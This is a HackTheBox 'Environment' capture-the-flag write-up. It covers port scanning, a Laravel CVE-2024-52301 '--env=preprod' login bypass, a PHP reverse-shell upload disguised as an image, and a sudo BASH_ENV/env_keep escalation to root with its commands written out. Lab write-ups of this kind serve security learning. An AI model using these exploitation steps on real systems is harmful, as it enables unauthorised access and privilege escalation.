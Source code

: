 * * *

### LAB: Environment
### CTF: HACKTHEBOX

* * *
![image](https://github.com/user-attachments/assets/f85c958b-48e2-4440-ad40-6b2915533b6b)


- Rustscan's output-:

```bash
❯ rustscan -a environment.htb -- -Pn -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/sensei/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.67:22
Open 10.10.11.67:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-13 15:49 WAT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
Initiating Connect Scan at 15:49
Scanning environment.htb (10.10.11.67) [2 ports]
Discovered open port 22/tcp on 10.10.11.67
Discovered open port 80/tcp on 10.10.11.67
Completed Connect Scan at 15:49, 2.25s elapsed (2 total ports)
Initiating Service scan at 15:49
Scanning 2 services on environment.htb (10.10.11.67)
Completed Service scan at 15:49, 6.64s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.67.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 17.51s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 2.92s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
Nmap scan report for environment.htb (10.10.11.67)
Host is up, received user-set (0.25s latency).
Scanned at 2025-05-13 15:49:15 WAT for 30s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrihP7aP61ww7KrHUutuC/GKOyHifRmeM070LMF7b6vguneFJ3dokS/UwZxcp+H82U2LL+patf3wEpLZz1oZdQ=
|   256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ7xeTjQWBwI6WERkd6C7qIKOCnXxGGtesEDTnFtL2f2
80/tcp open  http    syn-ack nginx 1.22.1
|_http-title: Save the Environment | environment.htb
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: nginx/1.22.1
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Ffuf's output

![image](https://github.com/user-attachments/assets/8ca19e57-5173-4697-9df8-d10293e28e5c)


- I identified Laravel's version because debug mode is enabled.I made a `GET` request to the directory upload and encountered an error which exposed the php and laravel build

![image](https://github.com/user-attachments/assets/be5c2345-a912-4073-9df4-2b90c4049ad4)

- I googled for CVES related to this version and got [one](https://github.com/Nyamort/CVE-2024-52301).Laravel is vulnerable to argument injection which occurs if the `register_argc_argv` option is enabled in the php.ini.This setting loads command-line arguments and query params into `$_SERVER['argv']`.The vulnerability allows us to set the environment that the laravel web app will load which signifies that we can load old environments that can be vulnerable.

POC-:

```<url>/?env--=production
```

- Our next task is to find pre-existing enviroment before `production`.I tried to trigger more errors to discover more parts of the source code.I tried to login with no values in the params and I got another error with more exposed source code.

![image](https://github.com/user-attachments/assets/d50b1984-ea85-4fa2-97a1-171349953598)

- The code exposed reveals a pre-existing environment that allows us to login automatically.

```php
      $keep_loggedin = False;
    } elseif ($remember == 'True') {
        $keep_loggedin = True;
    }
 
    if($keep_loggedin !== False) {
    // TODO: Keep user logged in if he selects "Remember Me?"
    }
 
    if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
        $request->session()->regenerate();
        $request->session()->put('user_id', 1);
        return redirect('/management/dashboard');
    }
 
    $user = User::where('email', $email)->first();
```

- Poc-:

```
<url>/login?--env=prepod
```

- Request should be submitted with empty params aside `_token` and remember should be set to false.

![image](https://github.com/user-attachments/assets/db2f93c5-7602-49c6-b3b7-8fc5d440c8f5)

- Portal accessed-:

![image](https://github.com/user-attachments/assets/c5c9f813-43ff-4b4e-ac4a-b068040ae769)


- We can upload a profile picture,let's try to upload a php reverse shell within a legitimate image and an extension `.php.`.

![image](https://github.com/user-attachments/assets/22c6cb5b-67b5-4d80-91ab-aa2229952dd6)


- Shell

![image](https://github.com/user-attachments/assets/189d1a4c-540f-4e14-abe3-defab693940d)

- Reverse shell-:

![image](https://github.com/user-attachments/assets/5a5c1c75-a170-4d2c-bb8f-c0361168b6c3)

- I ran linpeas and discovered a directory where gpg keys are stored.

![image](https://github.com/user-attachments/assets/faff85ff-d6f5-4267-9b5b-beb86f5d566c)

- A gpg encrypted file too-:

![image](https://github.com/user-attachments/assets/8c968551-4a92-4ec4-bee1-a728a2b931dd)

- I decrypted with this-:

![image](https://github.com/user-attachments/assets/3b8f2914-9742-49af-87f4-4272ae11b46a)

- Hish accessed-:

![image](https://github.com/user-attachments/assets/72af2350-ec5e-4e64-b210-6938325ac4b9)

------------------

### Privesc with keep_env and bash_env

------------------

- `sudo -l`-:

![image](https://github.com/user-attachments/assets/1dccd336-c751-4fc9-9c8a-8d93feec781a)

- When running a binary based on the sudoers file, only the default env variables are loaded.`Env_keep` exists to allow us add a vaariable to the members of the `sudo group` which means we can set this variable which can be used when we run as root.The `BASH_ENV` variable indicates the startup script path when a bash non interactive shell is started.
- A non interactive shell starts when you run a bash script.It starts because a bash shebang is indicated.

![image](https://github.com/user-attachments/assets/abe78c69-f335-4b68-a9e4-7e6d9e31cc09)

- I exploited it by creating a bash startup script that starts a bash shell.

![image](https://github.com/user-attachments/assets/59f241bd-c2b5-445e-b7ad-cfeebe362bd2)

- POC-:

```bash
echo -ne "#\! /bin/bash\nbash" > shell.sh
export BASH_ENV=./shell.sh
sudo /usr/bin/systeminfo
```

- Root-:

![image](https://github.com/user-attachments/assets/efa8b55c-3a52-409b-9bdc-f5fa8c06710e)


--------------

### REFERENCES-:

--------------

- [Laravel's argument injection](https://github.com/Nyamort/CVE-2024-52301)
- [Bash_env](https://www.linux.org/threads/where-does-bash_env-get-set.47214/)
- [env_keep](https://superuser.com/questions/742333/undocumented-default-values-for-sudoers-env-keep-variable)

---------------




